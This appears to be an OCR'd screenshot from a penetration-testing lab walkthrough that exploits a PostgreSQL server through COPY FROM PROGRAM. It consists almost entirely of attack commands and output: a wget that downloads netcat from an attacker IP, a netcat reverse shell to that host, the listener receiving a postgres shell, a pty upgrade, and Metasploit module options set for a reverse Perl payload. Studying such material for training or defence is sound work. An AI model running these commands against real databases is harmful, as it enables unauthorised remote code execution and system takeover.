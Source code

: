 ```bash
You are now connected to database "postgres" as user "postgres".
postgres=# DROP TABLE IF EXISTS cmd_exec;
NOTICE:  table "cmd_exec" does not exist, skipping
DROP TABLE
postgres=# CREATE TABLE cmd_exec(cmd_output text);
CREATE TABLE
postgres=# COPY cmd_exec FROM PROGRAM 'wget http://192.168.234.30/nc';
COPY 0
postgres=# DELETE FROM cmd_exec;
DELETE 0
postgres=# COPY cmd_exec FROM PROGRAM 'nc -n 192.168.234.30 5437 -e /usr/bin/bash';
Our listener caught a postgres shell.

kali@kali:~$ nc -lvp 5437
listening on [any] 5437 ...
192.168.234.140: inverse host lookup failed: Unknown host
connect to [192.168.234.30] from (UNKNOWN) [192.168.234.140] 44936
whoami
postgres
id
uid=106(postgres) gid=113(postgres) groups=113(postgres),112(ssl-cert)
python -c 'import pty; pty.spawn("/bin/bash")'
postgres@debian:/var/lib/postgresql/11/main$
Metasploit Module
Alternatively, we could use the multi/postgres/postgres_copy_from_program_cmd_exec Metasploit module to obtain remote code execution using PostgreSQL.

kali@kali:~$ msfconsole
...
msf5 exploit(multi/postgres/postgres_copy_from_program_cmd_exec) > options

Module options (exploit/multi/postgres/postgres_copy_from_program_cmd_exec):

   Name               Current Setting  Required  Description
   ----               ---------------  --------  -----------
   DATABASE           postgres         yes       The database to authenticate against
   DUMP_TABLE_OUTPUT  false            no        select payload command output from table (For Debugging)
   PASSWORD           postgres         no        The password for the specified username. Leave blank for a random password.
   RHOSTS             192.168.120.118  yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT              5437             yes       The target port (TCP)
   TABLENAME          wpvZUV8OAc       yes       A table name that does not exist (To avoid deletion)
   USERNAME           postgres         yes       The username to authenticate as


Payload options (cmd/unix/reverse_perl):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.118.3    yes       The listen address (an interface may be specified)
   LPORT  5437             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic


```